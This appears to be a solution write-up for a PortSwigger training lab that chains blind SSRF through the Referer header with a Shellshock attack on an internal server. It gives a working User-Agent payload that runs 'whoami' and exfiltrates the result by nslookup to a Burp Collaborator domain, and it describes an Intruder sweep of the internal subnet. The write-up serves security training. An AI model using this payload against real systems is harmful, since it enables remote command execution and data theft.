

# Lab: Blind SSRF with Shellshock exploitation

Lab-Link: <https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation>  
Difficulty: EXPERT  
Python script: No script available

## Known information

- Website uses analystics software that fetches a URL specified in the referer header
- An internal server is available in the range 192.168.0.0/24 on port 8080 that is vulnerable to [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
- Goals:
  - Find the internal server
  - Exfiltrate the OS user name

## Steps

### Analysis

Similar to the [previous lab](../Blind_SSRF_with_out-of-band_detection/README.md), the web application is the shop website and contains a Referer header that can be used to trigger arbitrary URL requests:


Interestingly, the HTTP request there contains a user agent line indicating that it was done by the same browser I use. So changing the user agent to some random value and sending a request again, the request to Burp Collaborator mirrors it:


So anything I put there is sent to to the analytics software.

### Build payload

The shellshock bug is a family of vulnerabilities in bash that enable an attacker to execute arbitrary system commands that should not be available. A common exploit is within the Common Gateway Interface (CGI) that receives a number of environment variables from the web server. If these variables are taken from an attacker controlled source, any command can be executed. Often, the user agent is one of these variables (for a nice summary, see [https://blog.cloudflare.com/inside-shellshock](https://blog.cloudflare.com/inside-shellshock/))

The shellshock is triggered by this sequence

```bash
() { ignored;};arbitrary command
```

In order to solve the lab and exfiltrate the username, the payload needs to

1. Get the username of the process running the script.  
   This is done by calling `whoami` and prepending the result to the Burp Collaborator subdomain
2. Trigger a DNS loogup with the result.  
   This is done with `nslookup`, which is usually located in `/usr/bin/nslookup`

```bash
() { ignored;};/usr/bin/nslookup $(whoami).kl92koxxbdxld92gizj75a86vx1npc.burpcollaborator.net
```

I do not know the exact IP of the internal system, so I use Burp Intruder for this. The Referer-Header targets the internal server with



- Attack type: **Sniper**
- Payload: Numbers, 1 to 254, step 1

As it is a blind exploit, nothing shows up in Burp Intruder. The Burp Collaborator client is hit by a number of DNS requests containing the username:


Submit the solution to solve the lab:


